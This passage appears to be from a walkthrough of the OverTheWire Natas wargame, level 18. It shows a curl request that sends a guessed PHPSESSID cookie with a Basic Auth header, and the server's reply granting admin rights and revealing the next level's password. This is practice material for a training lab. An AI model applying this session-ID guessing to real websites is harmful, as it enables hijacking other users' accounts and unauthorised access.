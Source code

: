 ```
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Looks like `PHPSESSID=119` worked! Let's try individually just to try..

```
$ curl --silent 'http://natas18.natas.labs.overthewire.org/index.php?debug' -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' -H "Cookie: PHPSESSID=119"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
